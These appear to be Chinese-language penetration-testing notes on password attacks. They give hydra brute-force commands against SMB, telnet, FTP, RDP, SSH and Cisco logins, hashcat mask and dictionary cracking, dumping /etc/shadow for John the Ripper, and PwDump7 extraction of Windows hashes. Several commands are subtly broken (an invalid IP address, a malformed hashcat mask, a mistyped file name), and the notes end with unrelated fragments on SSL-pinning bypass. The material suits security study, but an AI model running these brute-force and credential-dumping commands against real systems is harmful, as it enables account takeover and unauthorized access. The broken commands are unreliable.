# 服务密码攻击(爆破服务):

####  1、在线密码攻击  

```
（没有得到密文，通过网络进行爆破）  

 需要快速的网络  

 需要强大的字典  

 需要高性能电脑  
```

####  2、离线密码攻击  

```
 （得到密文加载字典本地爆破）  

 需要强大的字典  

 需要高性能电脑  

 扫描端口分析服务 进行爆破攻击  

 Linux 22/80/443/21/  

 Windows 135/139/445/3306/1433/3389  

 135：TCP 135=微软DCE RPC end-point mapper服务  

 139：duTCP 139=微软Netbios Name服务（用于文件及打印机共享）  

 常见的服务协议：smb   、   Telnet   、   ftp   、   3389   、   Mssql   、   mysql  

 445 响应快 默认使用445进行爆破  
```

###  hydra   使用  

```
 参数详解：  
 
 -l 指定用户名  
 -L 指定用户名字典(文件)  
 -p 指定密码破解  
 -P 指定密码字典(文件)  
 -s 指定端口   (老版本，新版本直接在ip后加端口)  
 service 指定服务名(telnet ftp pop3 mssql mysql ssh ssh2......)  
 -S 使用SSL协议连接  
 -o 输出文件  
 -t 指定多线程数量，默认为16个线程  
 -R 根据上一次进度继续破解   （中途断掉了）  
 -e 空密码探测和指定用户密码探测(ns)    探测是否可以使用空密码登录  
 -C 用户名可以用:分割(username:password)可以代替-l username -p password  
 server 目标IP
 -vV 显示详细过程  
```

#####  Hydra使用案例  

```
 破解smb：  	 
 hydra -l administrator -P pass.txt -t 30 -e ns -vV smb://192.168.149.193  
```


 

######  得到结果  

 

 

```
 爆破   telnet  
 hydra -l administrator -P telnetPass.txt -t 30 -vV -e ns telnet://192.168.149.913   
```

 

######  得到结果  

 

 ```
破解ftp：  
Hydra -l ceshi -P ftpPass.txt -t 30 -vV -e ns ftp://192.168.149.193  
 ```


 

 成功  

 

```
 破解rdp：   （   会误报   有问题，不能用）  
 hydra -l administrator -P telnetPass.txt -t 30 -vV -e ns rdp://192.168.149.193  
```


 

```
 使用hydra破解ssh的密码  
 hydra -l msfadmin -P sshPass.txt -t 30 -vV -e ns ssh://192.168.149.193  
```


 

 成功  

 


```
 破解cisco：  

 hydra -P pass.txt IP cisco  
 hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable  
```


 Kali中的字典生成器 crunch  

 参考链接：  

[ https://www.jianshu.com/p/72f9262ba6c1  ](https://www.jianshu.com/p/72f9262ba6c1)

 

###  Hashcat  

```
 Hashcat:(获得了hash MD5网站无法破解的情况)   

 Hashcat系列软件是比较牛逼的密码破解软件，系列软件包含Hashcat、oclHashcat；还有一个单独新出的oclRausscrack。其区别为Hashcat只支持cpu破解；oclHashcat和oclGausscrack则支持gpu加速。oclHashcat则分为AMD版和NIVDA版。  

 先识别加密算法，再将明文字典按照这中加密算法进行加密，然后在使用加密后的字典与密文进行匹配，  

 匹配成功之后再将加密的明文和之前明文进行匹配  

 hash-identifier工具  

 识别密文加密算法  
```


 

 注意：离线爆破需要得到hash密文文件  

 用法：  

 Hash --help 查看使用帮助  

 -a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击(   掩码攻击是对暴力破解的改进。在传统的暴力破解中，只能指定密码由什么构成，而不能对每一位进行设置。假设密码前5位是字母，后3位是数字，它会在每一位都使用数字和字母尝试。这样就造成大量的无效尝试。掩码攻击可以指定每一位的构成。例如，使用?l表示小写字母，使用?d表示数字。这样?l?l?l?l?l?d?d?d就可以表示密码前5位是字母，后3位是数字，从而避免无效尝试。   )。（常用的是0和3这两种攻击模式）  

 #### | Mode  

```
  0 | Straight（   字典   破解）  

  1 | Combination（组合破解）  

  3 | Brute-force（掩码暴力破解）  

  6 | Hybrid Wordlist + Mask（字典+掩码破解）    --表示的是便一边生成密文一边破解  

  7 | Hybrid Mask + Wordlist（掩码+字典破解）  
```


 

 ```
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5  

 -o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中  

 --force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项  

 --show  显示已经破解的hash及该hash所对应的明文  

 --increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程  

 --increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用  

 --increment-max  密码最大长度,同上  

 --outfile-format 指定破解结果的输出格式id,默认是3  

 --username  忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到  

 --remove   删除已被破解成功的hash  

 -r    使用自定义破解规则  
 ```


 a.hash 表示存放密文的hash文件(就是需要破解的密文，也可以是1.txt)  

 hashcat a.hash -m 0 -a 0 pass  -o 123.txt --force  

 

 得到结果：  

 

 指定密文的类型 a表示所有字符类型  

 

 破解7位纯数字密码  

 hashcat -m 0 -a 3 test.hash ?d?d?d?d?d?d?d  

 破解8位字母加数字的 xiao2008  

 hashcat -m 0 -a 3 test.hash ?l?l?l?ld?d?d?D  

 

 

 自定义组合破解  

 破解5位未知密码并且自定义密码组合  

 这里的?1指的是按照xiao的方式生成第一位  

 hashcat -m 0 -a 3 test.hash --custom-charset1=xiao --custom-charset2=?d  ?1?2?2?2?2  

 hashcat -m 0 -a 3 test.hash --custom-charset1=?l?d--custom-charset2=?d  ?1?2?2?2?2  

###  John的使用  

```
 pwdump7工具读取了windows hash可以使用hashcat破解  structs2 漏洞权限很大可以读取shadow文件)  

 将shadows文件中的密码导出进行测试  

 cat /etc/shadow > 1.txt  

 进行破解 1.txt  

 john 1.xt  
```


 能够识别linux windows默认密码的加密方式  

 

 

 展示结果  

 

 测试Windows密码  

###  PwDump7.exe  

 E:/TOOLS/TOOLS/08--权限提升/windows/getpass/抓hash   /PwDump7.exe  

 

 将密码导入到2.txt中  

 

 

 拷贝到Linux进行破解  

 得到加密方式和账号密码  

 

 参数不指定系统也能破解  

 xpost 绕过ssl ping

通过open-vpn绕过

通过调试hook